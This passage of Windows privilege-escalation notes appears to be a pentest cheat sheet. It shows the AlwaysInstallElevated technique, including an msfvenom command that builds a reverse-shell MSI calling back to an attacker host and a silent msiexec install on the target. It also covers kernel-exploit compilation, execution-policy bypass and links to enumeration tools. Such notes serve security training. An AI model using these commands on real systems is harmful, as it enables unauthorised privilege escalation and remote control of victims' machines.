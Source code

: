 **Always Install Elevated**

*   Check registry keys:

    ```cmd
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    ```
*   If both are set to `1`, you can generate and run a malicious MSI file.

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 -f msi > install.msi
    ```

    On target:

    ```cmd
    C:> msiexec /quiet /qn /i install.msi
    ```

#### Kernel Exploits

* [abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
* Run `systeminfo`, capture the output, and run `windows-exploit-suggester.py` against it.
*   **Compiling Kernel Exploits (using mingw-w64):**

    ```bash
    # 64-bit
    x86_64-w64-mingw32-gcc exploit.c -o exploit.exe

    # 32-bit
    i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
    ```

#### Automated Enumeration Tools

**Powershell:**

* `powershell -ep bypass`
* `load powershell` (only in meterpreter)
* [Sherlock](https://github.com/rasta-mouse/Sherlock)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

**EXE:**

* [Hacktricks EXE section](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#exe)
* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [Accesschk.exe](https://github.com/jivoi/pentest/blob/master/post_win/accesschk_exe)
* [Seatbelt](https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
